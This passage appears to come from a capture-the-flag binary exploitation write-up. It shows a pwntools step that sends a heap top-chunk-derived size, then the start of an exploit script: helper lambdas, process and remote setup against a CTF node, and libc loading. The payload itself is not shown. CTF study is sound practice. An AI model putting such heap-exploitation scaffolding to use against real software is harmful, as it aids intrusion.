 ```bash
p.recvuntil("2:puts\n")
p.sendline('1')
p.recvuntil("size\n")
p.sendline(str(top_chunk_addr))
```

[![](assets/1701612371-2d51694248704a9c8bf05617e1f93d9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145857-bff60664-17dc-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

```